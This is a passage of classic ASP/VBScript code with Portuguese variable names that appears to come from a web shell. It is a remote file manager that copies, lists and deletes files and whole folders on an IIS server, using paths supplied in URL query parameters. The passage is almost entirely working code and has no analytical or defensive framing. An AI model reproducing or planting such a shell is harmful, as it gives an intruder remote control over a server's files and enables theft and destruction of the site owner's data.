         Set MyFile = ObjFSO.GetFile(caminho)
        destino = Left(Server.MapPath(Request.ServerVariables("SCRIPT_NAME")),InstrRev(Server.MapPath(Request.ServerVariables("SCRIPT_NAME")),"\"))
        MyFile.Copy (destino)
        If Err.Number = 0 Then
            Response.Write "&lt;font face='arial' size='2'&gt;&lt;center&gt;&lt;br&gt;&lt;br&gt;File: &lt;b&gt;" & caminho & "&lt;/b&gt;&lt;br&gt;Copied to: " & destino
        End If    
    Case "put"
        checa = checking(cprthtml,keydec)
        Call hdr()
        Response.Write copyright & onlinehelp
        If Trim(Request.QueryString("arquivo")) = "" Then
            caminho = Left(Server.MapPath(Request.ServerVariables("SCRIPT_NAME")),InstrRev(Server.MapPath(Request.ServerVariables("SCRIPT_NAME")),"\"))
            varpath = Trim(Request.QueryString("path"))
            Set ObjFSO = CreateObject("Scripting.FileSystemObject")
            Set MonRep = ObjFSO.GetFolder(caminho)
            Set ColFolders = MonRep.SubFolders
            Set ColFiles0 = MonRep.Files
            Response.Write "&lt;font face='arial' size='2'&gt;&lt;b&gt;Select File: &lt;br&gt;&lt;table border=""0"" cellspacing=""0"" cellpadding=""0"" &gt;"
            for each FilesItem0 in ColFiles0
                Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face='arial' size='2'&gt;:: " & showobj(FilesItem0.path) & "&lt;/td&gt;&lt;td valign='baseline'&gt;&lt;font face='arial' size='1'&gt;&nbsp;&nbsp;" & FormatNumber(FilesItem0.size/1024, 0) & "&nbsp;Kbytes&nbsp;&nbsp;&nbsp;&lt;/font&gt;&lt;/td&gt;&lt;td valign='baseline'&gt;&nbsp;&nbsp;&lt;font face='arial' size='1'&gt;&lt;a href=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=put&path=" & varpath & "&arquivo=" & Replace(FilesItem0.path,"\","|") & """&gt;:: SELECT ::&lt;/a&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;"
            next
            Response.Write "&lt;/table&gt;"
        Else
            destino = Replace(Trim(Request.QueryString("path")),"|","\") & "\"
            arquivo = Replace(Trim(Request.QueryString("arquivo")),"|","\")
            Set ObjFSO = CreateObject("Scripting.FileSystemObject")
            Set MyFile = ObjFSO.GetFile(arquivo)
            MyFile.Copy (destino)
            If Err.Number = 0 Then
                Response.Write "&lt;font face='arial' size='2'&gt;&lt;center&gt;&lt;br&gt;&lt;br&gt;File: &lt;b&gt;" & arquivo & "&lt;/b&gt;&lt;br&gt;Copied to: &lt;b&gt;" & destino
            End If
        End If
    Case "del"
        checa = checking(cprthtml,keydec)
        Call hdr()
        Response.Write copyright & onlinehelp
        caminho = Replace(Trim(Request.QueryString("path")),"|","\")
        Set ObjFSO = CreateObject("Scripting.FileSystemObject")
        Set MyFile = ObjFSO.GetFile(caminho)
        MyFile.Delete
        If Err.Number = 0 Then
            Response.Write "&lt;SCRIPT LANGUAGE=""JavaScript""&gt;self.opener.document.location.reload();&lt;/SCRIPT&gt;"
            Response.Write "&lt;font face='arial' size='2'&gt;&lt;center&gt;&lt;br&gt;&lt;br&gt;Folder &lt;b&gt;" & caminho & "&lt;/b&gt; Deleted.&lt;br&gt;"
        End If
    Case "fdel"
        checa = checking(cprthtml,keydec)
        Call hdr()
        Response.Write copyright & onlinehelp
        caminho = Replace(Trim(Request.QueryString("path")),"|","\")
        Set ObjFSO = CreateObject("Scripting.FileSystemObject")
        ObjFSO.DeleteFolder caminho
        If Err.Number = 0 Then